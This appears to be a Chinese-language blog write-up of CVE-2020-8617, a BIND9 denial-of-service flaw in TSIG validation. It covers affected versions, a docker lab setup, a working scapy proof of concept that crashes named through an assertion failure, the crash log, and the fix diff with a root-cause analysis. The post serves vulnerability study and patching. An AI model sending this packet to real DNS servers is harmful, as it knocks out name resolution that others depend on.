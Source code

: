 ```yaml
---
title: CVE-2020-8617 Bind9 DOS 漏洞
date: 2020-07-01 19:03:26
tags: CVE
---
```


## 简介

CVE-2020-8617是由检查 TSIG 合理性的验证代码中的逻辑错误引发的，攻击者可以通过精心构造的payload触发 `tsig.c` 的失败断言，导致拒绝服务攻击。

<!--more-->

### 时间线

- 报告时间:
- 修复时间:
- 披露时间: 2020-5-19

### 漏洞影响范围

- 9.0.0 - 9.11.18
- 9.12.0 - 9.12.4-P2
- 9.14.0 - 9.14.11
- 9.16.0 - 9.16.2
- 9.13 / 9.15 / 9.17.0 development branch
- 9.9.3-S1 - 9.11.18-S1

## 复现

### 复现环境

```bash
docker run --rm --name cve-2020-8617 -it -p 53:53/udp knqyf263/cve-2020-8617
```

### PoC

```python
from scapy.all import DNS, DNSQR, IP, sr1, UDP, DNSRRTSIG, DNSRROPT

tsig = DNSRRTSIG(rrname="local-ddns", algo_name="hmac-sha256", rclass=255, mac_len=0, mac_data="", time_signed=0, fudge=300, error=16)

dns_req = IP(dst='127.0.0.1')/UDP(dport=53)/DNS(rd=1, ad=1, qd=DNSQR(qname='www.example.com'), ar=tsig)
answer = sr1(dns_req, verbose=0)

print(answer[DNS].summary())
```

## 漏洞分析

漏洞触发点是在 `tsig.c` `dns_tsig_sign` 函数。

```c
isc_result_t
dns_tsig_sign(dns_message_t *msg) {
    ...
    if (response && msg->querytsig != NULL) {
        dns_rdata_t querytsigrdata = DNS_RDATA_INIT;
        INSIST(msg->verified_sig);
    ...
}
```

运行PoC后报错为如下：

```
01-Jul-2020 11:00:20.386 client @0x7fef400c4900 127.0.0.1#40631: request has invalid signature: TSIG local-ddns: tsig verify failure (BADTIME)
01-Jul-2020 11:00:20.386 tsig.c:869: INSIST(msg->verified_sig) failed
01-Jul-2020 11:00:20.386 exiting (due to assertion failure)
```

此时程序停止运行。

漏洞的 Patch 在 `tsig.c` 的 `dns_tsig_verify` 函数中

```diff
@@ -1360,8 +1360,8 @@ dns_tsig_verify(isc_buffer_t *source, dns_message_t *msg,
            goto cleanup_context;
        }
        msg->verified_sig = 1;
    } else if (tsig.error != dns_tsigerror_badsig &&
           tsig.error != dns_tsigerror_badkey)
    } else if (!response || (tsig.error != dns_tsigerror_badsig &&
                 tsig.error != dns_tsigerror_badkey))
    {
        tsig_log(msg->tsigkey, 2, "signature was empty");
        return (DNS_R_TSIGVERIFYFAILURE);
@@ -1409,7 +1409,7 @@ dns_tsig_verify(isc_buffer_t *source, dns_message_t *msg,
        }
    }

    if (tsig.error != dns_rcode_noerror) {
    if (response && tsig.error != dns_rcode_noerror) {
        msg->tsigstatus = tsig.error;
        if (tsig.error == dns_tsigerror_badtime) {
            ret = DNS_R_CLOCKSKEW;
```

其中 if 条件的 response 代表是请求还是响应，`if else` 之前的条件为 `if (tsig.siglen > 0) {` 。

经过比较并结合PoC很容易分析出，这里是因为没有处理请求中 `siglen` 为0的情况，`dns_tsig_verify` 函数没有返回异常，代码继续运行，最后造成了校验不通过。

## 参考链接

- [bind9](https://github.com/isc-projects/bind9)
- [PoC for CVE-2020-8617 (BIND)](https://github.com/knqyf263/CVE-2020-8617)
- [CVE-2020-8617: A logic error in code which checks TSIG validity can be used to trigger an assertion failure in tsig.c](https://kb.isc.org/docs/cve-2020-8617)
- [BIND 9 Security Vulnerability Matrix](https://kb.isc.org/docs/aa-00913)
- [Fixed Commit](https://github.com/isc-projects/bind9/commit/2d95c81452096478f0dbb071db21b2fba1df5bc1#diff-e996bb2fe7e68f8f8d5f81073d67e238)
- [mitre CVE-2020-8617](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8617)
